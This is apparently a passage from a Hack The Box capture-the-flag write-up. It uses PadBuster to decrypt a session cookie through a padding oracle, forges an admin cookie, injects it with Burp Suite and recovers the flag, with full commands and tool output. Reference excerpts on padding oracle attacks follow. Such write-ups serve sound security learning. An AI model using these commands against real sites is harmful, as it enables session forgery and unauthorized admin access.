Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 4 ***

[+] Success: (1/256) [Byte 8]
[+] Success: (191/256) [Byte 7]
[+] Success: (203/256) [Byte 6]
[+] Success: (226/256) [Byte 5]
[+] Success: (5/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (250/256) [Byte 2]
[+] Success: (73/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 249da8a561e5d8d9
[+] Intermediate Bytes (HEX): bf01c8fe1a3643fe
[+] Plain Text: "mytest"

*** Starting Block 3 of 4 ***

[+] Success: (30/256) [Byte 8]
[+] Success: (8/256) [Byte 7]
[+] Success: (125/256) [Byte 6]
[+] Success: (247/256) [Byte 5]
[+] Success: (49/256) [Byte 4]
[+] Success: (36/256) [Byte 3]
[+] Success: (72/256) [Byte 2]
[+] Success: (256/256) [Byte 1]

Block 3 Results:
[+] Cipher Text (HEX): 45469de546dc283f
[+] Intermediate Bytes (HEX): 08bfdaca0d80fae3
[+] Plain Text: ,"role":

*** Starting Block 4 of 4 ***

[+] Success: (193/256) [Byte 8]
[+] Success: (169/256) [Byte 7]
[+] Success: (3/256) [Byte 6]
[+] Success: (208/256) [Byte 5]
[+] Success: (123/256) [Byte 4]
[+] Success: (24/256) [Byte 3]
[+] Success: (204/256) [Byte 2]
[+] Success: (145/256) [Byte 1]

Block 4 Results:
[+] Cipher Text (HEX): 410479741f105354
[+] Intermediate Bytes (HEX): 6733ee8034fe553e
[+] Plain Text: "user"}

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): {"user":"mytest","role":"user"}

[+] Decrypted value (HEX): 7B2275736572223A226D7974657374222C22726F6C65223A2275736572227D01

[+] Decrypted value (Base64): eyJ1c2VyIjoibXl0ZXN0Iiwicm9sZSI6InVzZXIifQE=

-------------------------------------------------------
```

Wow! So we've managed to decrypt the `iknowmag1k` cookie value
`IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D` to the ASCII
string `{"user":"mytest","role":"user"}` with what looks to be padding at the
end.  Now can we build a cookie using the ASCII string
`{"user":"admin","role":"admin"}`?

```
$ padbuster http://88.198.233.174:41385/profile.php IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D 8 -cookies iknowmag1k=IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D -encoding 0 -plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: login.php
[+] Content Length: 0

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 4

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	302	0	login.php
2 **	255	500	0	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2


Continuing test with selection 2

[+] Success: (97/256) [Byte 8]
[+] Success: (155/256) [Byte 7]
[+] Success: (87/256) [Byte 6]
[+] Success: (153/256) [Byte 5]
[+] Success: (61/256) [Byte 4]
[+] Success: (188/256) [Byte 3]
[+] Success: (151/256) [Byte 2]
[+] Success: (167/256) [Byte 1]

Block 4 Results:
[+] New Cipher Text (HEX): 300a2faf0d881a9f
[+] Intermediate Bytes (HEX): 516e42c663aa679e

[+] Success: (197/256) [Byte 8]
[+] Success: (77/256) [Byte 7]
[+] Success: (51/256) [Byte 6]
[+] Success: (253/256) [Byte 5]
[+] Success: (25/256) [Byte 4]
[+] Success: (182/256) [Byte 3]
[+] Success: (226/256) [Byte 2]
[+] Success: (96/256) [Byte 1]

Block 3 Results:
[+] New Cipher Text (HEX): 8a6b238e62ec8b18
[+] Intermediate Bytes (HEX): a8194ce207ceb13a

[+] Success: (203/256) [Byte 8]
[+] Success: (77/256) [Byte 7]
[+] Success: (130/256) [Byte 6]
[+] Success: (176/256) [Byte 5]
[+] Success: (129/256) [Byte 4]
[+] Success: (80/256) [Byte 3]
[+] Success: (53/256) [Byte 2]
[+] Success: (14/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): d8add2173d139318
[+] Intermediate Bytes (HEX): faccb67a547db134

+] Success: (83/256) [Byte 8]
[+] Success: (107/256) [Byte 7]
[+] Success: (221/256) [Byte 6]
[+] Success: (52/256) [Byte 5]
[+] Success: (219/256) [Byte 4]
[+] Success: (207/256) [Byte 3]
[+] Success: (239/256) [Byte 2]
[+] Success: (161/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 2c344253ad52b596
[+] Intermediate Bytes (HEX): 57163720c82097ac

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
-------------------------------------------------------
```

Now let's intercept the `profile.php` GET request using `burpsuite` and alter the
`iknowmag1k` cookie with our new altered "admin" value..

```
iknowmag1k=LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
```



Forwarding this request onto the server gets us in!



```
HTB{Padd1NG_Or4cl3z_AR3_WaY_T0o_6en3r0ys_ArenT_tHey???}
```

### REFERENCES

```
https://en.wikipedia.org/wiki/Padding_oracle_attack

In cryptography, a padding oracle attack is an attack which is performed using
the padding of a cryptographic message. In cryptography, variable-length
plaintext messages often have to be padded (expanded) to be compatible with the
underlying cryptographic primitive. The attack relies on having a "padding
oracle" who freely responds to queries about whether a message is correctly
padded or not. Padding oracle attacks are mostly associated with CBC mode
decryption used within block ciphers. Padding modes for asymmetric algorithms
such as OAEP may also be vulnerable to padding oracle attacks.
```

```
http://www.hackingarticles.in/hack-padding-oracle-lab/

The padding oracle attack enables an attacker to decrypt encrypted data without 
knowledge of the encryption key and used cipher by sending skillful manipulated 
cipher texts to the padding oracle and observing of the results returned by it. 
This causes loss of confidentiality of the encrypted data. E.g. in the case of
session data stored on the client side the attacker can gain information about
the internal state and structure of the application. A padding oracle attack
also enables an attacker to encrypt arbitrary plain texts without knowledge of
the used key and cipher. If the application assumes that integrity and
authenticity of the decrypted data is given, an attacker could be able to
manipulate internal session state and possibly gain higher privileges.
```

```
https://www.exploit-db.com/exploits/22381/

SIPS 0.2.2 - User Information Disclosure

It has been reported that authentication is not required to view user account
information.  As a result, an unauthorized remote attacker may be able to view
potentially sensitive information. This may aid in launching further attacks
against a target user or system.
```
